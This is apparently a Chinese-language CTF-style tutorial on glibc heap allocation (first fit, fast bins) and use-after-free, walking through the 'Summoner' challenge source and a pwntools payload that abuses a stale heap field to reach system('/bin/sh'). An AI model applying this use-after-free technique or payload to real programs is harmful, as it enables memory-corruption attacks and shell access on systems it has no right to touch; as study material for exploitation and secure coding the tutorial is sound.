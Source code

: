 # UAF

## first-fit behavior

释放除了fast chunk之外的chunk时，都会在unsorted bin中结束，在列表的HEAD处插入chunk；请求新的除了fast chunk之外的chunk时，首先在unsorted bin中查找，此时small bin为空，查找来自列表末尾TAIL，如果unsorted bin中存在单个chunk，则不会进行精确检查，如果chunk的大小大于或等于请求的块，则将其拆分为两个并返回
对于

```c++
char *a = malloc(300);    // 0x***010
char *b = malloc(250);    // 0x***150
free(a);
a = malloc(250);
```

unsorted bin 的情况：

1. free(a): `head -> a -> tail
2. a=malloc(250): `head -> a2 -> tail['a1'被返回]`

![Alt](img/exploitation_heap1.png)
![Alt](img/exploitation_heap2.png)

'a' 被分成两块，'a1'和'a2'，因为请求大小小于a的大小

fast chunk中，fast chunk 最终进入 fast bins 而不是到 unsorted bin。此外，fast bin 遵循 LIFO原则
对于

```c++
char *a = malloc(20);
char *b = malloc(20);
char *c = malloc(20);
char *d = malloc(20);
free(a);
free(b);
free(c);
free(d);
a = malloc(20);
b = malloc(20);
c = malloc(20);
d = malloc(20);
```

![Alt](img/exploitation_heap3.png)
![Alt](img/exploitation_heap4.png)
![Alt](img/exploitation_heap5.png)
![Alt](img/exploitation_heap6.png)
![Alt](img/exploitation_heap7.png)
![Alt](img/exploitation_heap8.png)
![Alt](img/exploitation_heap9.png)

fast bin中的情况：

1. free(a): `head -> a -> tail`
2. free(b): `head -> b -> a -> tail`
3. free(c): `head -> c -> b -> a -> tail`
4. free(d): `head -> d-> c ->b -> a -> tail`
5. d=malloc(20): `head -> c -> b -> a -> tail`
6. c=malloc(20): `head -> b -> a -> tail`
7. b=malloc(20): `head -> a -> tail`
8. a=malloc(20): `head -> tail`

> 使用较小的大小是为了确保在释放时，chunk进入fast bins 而不是 unsorted bins

## Use after Free 漏洞利用（UAF漏洞）

malloc 可能会返回先前使用和释放的chunk，这使得使用释放的内存chunks容易受到攻击。一旦释放了一个chunk，就应该假设攻击者可以控制chunk内的数据，永远不使用释放的chunk，即总是分配一个新的chunk
容易受道攻击的代码：

```c++
char *ch = malloc(20);
// Some operations
//  ..
//  ..
free(ch);
// Some operations
//  ..
//  ..
// Attacker can control 'ch'
// This is vulnerable code
// Freed variables should not be used again
if (*ch=='a') {
  // do this
}
```

例，`Summoner`

```c++
    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>
    #include <string.h>

    struct creature {
        char *name;
        int level;
    };

    void intro()
    {
        puts("After you climb over the snow mountain, you encounter an evil summoner!\n");
        puts("He summoned \"The Dark Lord\" Level 5! You have to get over his dead body to fight the Demon Dragon, but you can only summon Level 4 creatures!\n");
        puts("What's your plan for now???\n");
    }

    void menu()
    {
        puts("Available plans:");
        puts("\tshow - show your creature and its level");
        puts("\tsummon [name] - summon a creature called [name]");
        puts("\tlevel-up [level] - level up your creature (below Level 5)");
        puts("\tstrike - STRIKE the evil summoner's creature!!!");
        puts("\trelease - release your creature");
        puts("\tquit - give up and die");
    }

    int main(int argc, char **argv)
    {
        char buf[0x200];
        char *arg;
        uint32_t level;
        struct creature *c;

        setbuf(stdout, NULL);
        intro();
        menu();
        c = NULL;
        while(1) {
            printf("\nEnter your command:\n> ");

            if(fgets(buf, 0x200, stdin) == NULL)
                break;

            if (!strncmp(buf, "show", 4)) {
                if(c == NULL)
                    puts("You have no creature now.");
                else
                    printf("Current creature: %s [Level %u]\n", c->name, c->level);
            } else if (!strncmp(buf, "summon", 6)) {
                if (c != NULL) {
                    puts("Already have one creature. Release it first.");
                    continue;
                }
                arg = strtok(&buf[7], "\n");
                if (arg == NULL) {
                    puts("Invalid command");
                    continue;
                }
                c = (struct creature *)malloc(sizeof(struct creature));
                if (c == NULL) {
                    puts("malloc() returned NULL. Out of Memory\n");
                    exit(-1);
                }
                c->name = strdup(arg);
                printf("Current creature:\"%s\"\n", arg);
            } else if(!strncmp(buf, "level-up", 8)) {
                if(c == NULL) {
                    puts("Summon first.");
                    continue;
                }
                arg = strtok(&buf[9], "\n");
                if (arg == NULL) {
                    puts("Invalid command");
                    continue;
                }
                level = strtoul(arg, NULL, 10);
                if (level >= 5) {
                    puts("Can only level-up to Level 4.");
                    continue;
                }
                c->level = level;
                printf("Level-up to \"%u\"\n", level);
            } else if(!strncmp(buf, "strike", 6)) {
                if (c == NULL) {
                    puts("Summon first.");
                    continue;
                }
                if (c->level != 5) {
                    puts("No, you cannot beat him!");
                    continue;
                }
                // system("/bin/cat /pwn/flag");
                // 此处修改过原作者的逻辑，用作本地调试，原作者代码：https://github.com/SignorMercurio/Heap-Tutorials/blob/master/first%20fit%20%26%20uaf/Summoner/summoner.c
                system("/bin/sh");
            } else if(!strncmp(buf, "release", 7)) {
                if (c == NULL){
                    puts("No creature summoned.");
                    continue;
                }
                free(c->name);
                c = NULL;
                puts("Released.");
            } else if(!strncmp(buf, "quit", 4)) {
                return 0;
            } else {
                puts("Invalid option");
                menu();
            }
        }
    }
```

编译之后通过ida查看

![Alt](img/exploitation_heap10.png)

如果输入“summon”通过malloc申请一块变量，然后返回到name，而strdup将输入的name拷贝到申请的chunk。
输入“level-up”时，会将输入的值写入到结构体的level

![Alt](img/exploitation_heap11.png)
![Alt](img/exploitation_heap12.png)

输入“release”时则会释放name

![Alt](img/exploitation_heap13.png)

输入“strike”时会调用`system`，但是前提时level为5

![Alt](img/exploitation_heap14.png)

而正常输入的情况下是不能够使level为5的，但是可以在申请name时通过输入溢出到level处的位置，写入5，然后free掉这块内存，再malloc一块内存，如此一来就可以拿到shell

![Alt](img/exploitation_heap15.png)

payload：

```python
from pwn import *
context.log_level='DEBUG'

p = process('./summoner')
p.sendline('summon aaaaaaaa'+'\x05')
sleep(1)
p.sendline('release')
sleep(1)
p.sendline('summon a')
#gdb.attach(p)
#pause()
sleep(1)
p.sendline('strike')
sleep(1)
p.interactive()
```

![Alt](img/exploitation_heap16.png)
![Alt](img/exploitation_heap17.png)
